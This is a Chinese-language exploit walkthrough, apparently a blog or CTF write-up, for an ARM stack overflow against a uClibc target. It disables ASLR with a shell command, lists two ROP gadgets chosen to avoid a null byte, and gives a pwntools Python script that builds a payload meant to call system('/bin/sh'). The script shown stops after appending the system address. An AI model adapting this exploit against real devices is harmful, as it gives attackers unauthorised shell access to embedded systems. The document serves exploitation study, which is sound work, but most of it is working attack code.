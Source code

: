 这里先关闭aslr。

```
echo 0 > /proc/sys/kernel/randomize_va_space
```

查看地址情况：

![5cdaf6115cb0166979](https://s2.ax1x.com/2019/05/16/E7OQmV.png)

可以看到调用的libc和其固定基址。

接下来做简单的arm rop即可。

目的是执行system('/bin/sh')，根据arm传参规则，只需控制r0中存放'/bin/sh'地址，控制pc指向system地址即可。

使用ROPgadget寻找gadget.

![5cdaf6ad399c873941](https://i.loli.net/2019/05/15/5cdaf6ad399c873941.png)

![5cdaf6c26ab5575945](https://i.loli.net/2019/05/15/5cdaf6c26ab5575945.png)

可以发现一个直接pop r0的gadget，但是里面有坏字符`\x00`,会导致程序读取截止从而失败。

再找一下其他的gadgets

![5cdaf72f8634a88343](https://i.loli.net/2019/05/15/5cdaf72f8634a88343.png)

这里可以先把地址pop到r1中，再通过mov r0,r1赋给r0

因此使用这两个gadget即可:

```
0x00048784 : pop {r1, pc} 
0x00016aa4 : mov r0, r1 ; pop {r4, r5, pc}
```

exploit:

```python
#!/usr/bin/python

from pwn import *
import os

libc_base = 0x76f2d000 #libcbase

stack_base = 0x7effeb60 #stack addr

libc_elf = ELF('libuClibc-0.9.33.3-git.so')

payload = (0x38 - 4) * 'a'


payload +=  p32(0x00048784 + libc_base)

success('gad1:'+hex(0x00048784 + libc_base))

payload += p32(0x80 + stack_base)

success('gad2:'+hex(0x80 + stack_base))

payload += p32(0x00016aa4 + libc_base)

success('gad3:'+hex(0x00016aa4 + libc_base))

payload += (0x8 * 'a')  # padding

payload += p32(libc_elf.symbols['system'] + libc_base)

```